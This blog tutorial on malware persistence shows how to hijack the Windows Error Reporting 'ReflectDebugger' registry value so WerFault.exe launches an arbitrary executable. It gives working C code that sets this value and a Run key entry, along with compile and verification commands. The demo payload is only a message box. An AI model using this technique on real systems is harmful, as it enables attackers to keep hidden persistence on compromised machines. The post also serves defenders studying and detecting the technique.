

# 05 persistence - windows error reporting

While studying the behavior of Windows Error Reporting, I came across an interesting Registry path:     

`HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs`     

If we run command `WerFault.exe -pr <value>` it is read `HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path_value>`. This command run `WerFault.exe` on mode which is called *"reflective debugger"* and it is very interesting. For example run `WerFault.exe -pr 1` and check it via Sysinternals Process Monitor:     

    

    

Add another filter:    

    

As a result, we have a loophole for hijacking this value:     

    

So, what is the trick? We can replace registry value `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger` with our evil application, because `WerFault.exe` not only read this value but also run it. And of course we can use it for persistence.    

For simplicity, as usually, my "evil" application is just `Hello, Prishtina!` messagbox (`hack.c`):     

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Prishtina!","=^..^=", MB_OK);
  return 0;
}
```

And then, create script which create registry key value with my "evil" app:    

```cpp
HKEY hkey = NULL;

// malicious app
const char* exe = "Z:\\hack.exe";

// hijacked app
const char* wf = "WerFault.exe -pr 1";

// set evil app
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
}
```

Also, I used [one of the classic trick](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) for persistence:     

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, strlen(wf));
  RegCloseKey(hkey);
}
```

Let's go to see everything in action. Compile our "evil" app:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

   

and persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

Before run everything, first of all, check registry key and value:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

Run "malware" for checking correctness:     

```powershell
.\hack.exe
```

    

Also, check registry keys which used for persistence logic:     

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

    

Then, run `pers.exe`:    

```powershell
.\pers.exe
```

and check Windows Error Reporting registry key again:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

   

As you can see, key value is edited and we can check correctness via running:    

```powershell
WerFault.exe -pr 1
```

    

Then, logout and login:    

    

and after a few seconds our `Hello, Prishtina!` messagebox is popped-up as expected:    

     

You can check the properties of `hack.exe` via Process Hacker 2:     

    

Also, pay attention that admin privileges required for hijacking Windows Error Reporting, but for persistence we use low-level privileges.     
